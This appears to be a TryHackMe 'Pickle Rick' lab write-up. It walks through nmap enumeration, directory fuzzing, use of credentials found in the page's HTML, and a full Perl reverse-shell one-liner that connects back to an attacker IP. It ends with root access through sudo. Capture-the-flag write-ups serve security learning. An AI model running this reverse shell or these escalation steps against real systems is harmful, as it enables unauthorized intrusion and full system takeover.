 ```yaml
---
title: TryHackMe | Pickle Rick
author: Zeropio
date: 2022-05-09
categories: [TryHackMe, Rooms]
tags: [thm, linux]
permalink: /tryhackme/pickle-rick
---
```



# Enumeration
We start a nmap at the IP.
```
Nmap scan report for 10.10.253.214
Host is up (0.067s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f8:50:7b:e1:4c:53:63:5d:2b:c6:84:1a:66:e9:a0:04 (RSA)
|   256 19:a8:de:3e:70:d9:ba:ff:d5:2f:46:60:a2:e1:c3:e3 (ECDSA)
|_  256 70:de:54:34:34:75:c3:77:56:9e:00:b3:84:93:fe:97 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can do a curl to the webpage and get a user in the html:
```console
curl -i http://10.10.253.214/
```

We can try a fuzzer to the webpage:
```console
dirsearch -r -u http://10.10.253.214/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -e php,txt,html -f
```

# Explotation
We can try to access with ssh but we need the RSA.

We can get a **login.php** and access with the creds. We can see a command execution and try a reverse shell with perl:
```console
perl -e 'use Socket;$i="10.18.91.218";$p=9000;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'
```

# Privilege Escalation
If we list all the www-data privileges we can see that we can executed any code, so we can get root.
```console
> sudo -l
> sudo su
```
